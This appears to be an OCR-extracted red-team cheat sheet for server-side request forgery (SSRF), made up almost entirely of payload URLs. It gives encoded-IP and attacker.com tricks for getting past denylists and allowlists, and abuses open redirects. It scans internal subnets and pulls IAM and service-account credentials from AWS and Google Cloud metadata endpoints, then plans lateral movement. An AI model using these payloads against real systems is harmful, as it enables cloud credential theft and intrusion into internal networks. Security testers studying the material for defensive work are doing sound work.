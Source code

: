 ```bash

# Internal Services
http://localhost:22      # SSH
http://192.168.1.1:80   # Internal Router
http://10.0.0.1:443     # Management Interface
DEFENSE BYPASS TECHNIQUES
http
# Bypass Denylists
http://127.0.0.1 → http://2130706433
http://localhost → http://localhost.attacker.com
http://192.168.1.1 → http://3232235777

# Bypass Allowlists
https://allowed.com@attacker.com
http://attacker.com#allowed.com
http://allowed.com.attacker.com

# Open Redirect Abuse
/redirect?target=http://internal.com
/goto?url=http://169.254.169.254/
🛠️ RED TEAM OPERATIONAL PROCEDURES
RECONNAISSANCE PHASE
Parameter analysis in URLs, forms, and API endpoints

Identification of URL processing functionality

Testing with external callback services (webhook.site)

EXPLOITATION PHASE
Internal Network Scanning

http
http://192.168.1.[1-254]:80/
http://10.0.0.[1-255]:443/
Cloud Environment Compromise

http
# AWS EC2 Metadata
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Google Cloud
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/
Service Interaction

http
# Database Access
http://localhost:3306/admin

# Cache Systems  
http://localhost:6379/info
POST-EXPLOITATION
Credential extraction from cloud metadata

Internal service enumeration and targeting

Network mapping for lateral movement planning

📈 RISK ASSESSMENT
Impact: CRITICAL (Network bypass, cloud compromise)

Detection Difficulty: Medium (Server logs show unusual requests)

Exploitation Complexity: Low-Medium
```